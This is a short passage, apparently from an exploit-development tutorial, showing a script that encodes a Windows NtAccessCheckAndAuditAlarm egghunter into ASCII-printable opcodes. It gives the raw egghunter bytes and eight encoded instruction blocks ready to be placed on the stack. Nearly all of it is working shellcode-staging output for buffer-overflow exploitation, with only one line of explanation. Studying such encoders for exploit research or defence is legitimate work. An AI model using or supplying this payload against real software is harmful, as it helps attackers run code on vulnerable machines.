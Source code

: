 Using our egghunter encoder, we will generate op codes to push an NtAccessCheckAndAuditAlarm egghunter onto the stack using only ascii-printable characters.

```
# ./hunter-encoder.py -e 3 -t m0m0
Raw egghunter bytes: 6681CAFF0F42526A0258CD2E3C055A74EFB86d306d308BFAAF75EAAF75E7FFE7

******BLOCK 0*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x2e\x5d\x55\x5d
\x2d\x2e\x5d\x55\x5d
\x2d\x2f\x5e\x55\x5d
\x50
******BLOCK 1*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x70\x2d\x5c\x6f
\x2d\x70\x2e\x5c\x70
\x2d\x71\x2e\x5d\x70
\x50
******BLOCK 2*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x31\x45\x26\x57
\x2d\x31\x45\x27\x57
\x2d\x31\x45\x27\x57
\x50
******BLOCK 3*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x5b\x6c\x30\x45
\x2d\x5b\x6d\x30\x45
\x2d\x5b\x6d\x31\x45
\x50
******BLOCK 4*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x41\x53\x37\x2e
\x2d\x41\x53\x37\x2e
\x2d\x42\x54\x37\x2f
\x50
******BLOCK 5*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x54\x37\x66\x45
\x2d\x55\x38\x66\x45
\x2d\x55\x38\x66\x46
\x50
******BLOCK 6*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x50\x3f\x39\x31
\x2d\x50\x3f\x3a\x32
\x2d\x51\x3f\x3a\x32
\x50
******BLOCK 7*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x33\x2a\x67\x55
\x2d\x33\x2a\x67\x55
\x2d\x34\x2a\x67\x55
\x50
```
